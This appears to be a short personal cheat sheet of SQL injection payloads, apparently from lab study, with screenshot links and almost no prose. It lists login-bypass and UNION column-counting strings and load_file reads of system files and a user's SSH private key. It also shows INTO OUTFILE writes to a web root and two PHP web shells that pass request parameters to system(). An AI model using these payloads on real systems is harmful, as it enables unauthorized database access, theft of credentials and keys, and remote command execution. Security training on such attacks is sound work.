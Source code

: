 ```
'+OR+1=1--
```

![](Pasted%20image%2020231003144222.png)

```
'--+
```

![](Pasted%20image%2020231003144626.png)

![](Pasted%20image%2020231003144723.png)

## SQL injection UNION attacks

## Determining the number of columns required

```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
etc.
```

```
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
etc.
```

```
union select 1,2,3,4,5,6,7,8,9,10,11,12 --
```

```
group_concat(file_priv,0x3a,user) from mysql.user
```

```
group_concat(version())
```

```
load_file('C:\\Windows\\win.ini')
```

```
into outfile 'C:\\xampp\\htdocs\\filename.ext'
```

```
'<?php phpinfo(); ?>' into outfile 'C:\\xampp\\htdocs\\try.php'
```

```
<?php if(isset($_REQUEST['cmd'])){echo "<pre>";$cmd = ($_REQUEST['cmd']);system($cmd);echo "</pre>";die;}?>
```

```
<?php system($_GET["cmd"]);?>
```

```
load_file('C:\\Users\\username\\.ssh\\id_rsa')
```

